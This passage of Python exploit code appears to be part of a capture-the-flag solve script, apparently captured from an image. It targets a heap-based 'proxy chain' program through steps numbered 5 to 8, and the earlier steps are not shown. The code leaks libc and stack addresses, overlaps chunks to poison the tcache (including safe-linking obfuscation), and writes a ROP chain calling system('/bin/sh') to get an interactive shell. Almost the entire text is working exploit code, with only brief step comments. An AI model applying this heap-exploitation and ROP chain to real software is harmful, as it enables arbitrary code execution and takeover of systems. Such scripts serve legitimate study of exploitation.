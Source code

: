 ```py

# 5. overwrite Proxy->hostname with unsorted bin left on heap and leak libc base
addProxy(p64(heap + 0x790), 0x41)
addChain([7])
viewChain(1)
p.recvuntil(b"is ")
libc.address = u64(p.recvuntil(b":", True).ljust(8, b'\x00')) - libc.sym._IO_2_1_stdin_ - 0x240
log.success(f"libc base @ {hex(libc.address)}")

# 6. make chunk overlapping and allocate 0x90 chunk into tcache_perthread_struct
addChain([-1])
payload = b'A'*0x38 + p64(0x91) + b'A'*0x28 + p64(0x91) + p64(heap + 0x8a0)
addProxy(payload, 0x41)

deleteProxy(9)
deleteProxy(18)

addProxy(b'A'*0x68 + p64(0x91) + p64(obfuscate(heap + 0x90 + 0x10, heap + 0x8d0)), 0)
addProxy(b'A'*0x18 + p64(0x21) + p64(heap + 0xb0), 0)
addProxy(p64(0) + p64(0x91) + b'A'*0x20, 0)
deleteProxy(17)
deleteProxy(18)

# 7. leak stack with same way  
addProxy(b'A'*0x18 + p64(heap + 0x770), 0)
addProxy(p64(libc.sym.environ), 0)
viewChain(1)
p.recvuntil(b"is ")
stack = u64(p.recvuntil(b":", True).ljust(8, b'\x00')) - 0x148
log.success(f"stack @ {hex(stack)}")

# 8. ROP and get shell 
deleteProxy(18)
deleteProxy(17)

addProxy(b'A'*0x18 + p64(stack), 0)

rop = ROP(libc)
rop.call(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh"))])
addProxy(b'A'*8 + rop.chain(), 0)

p.interactive()
```
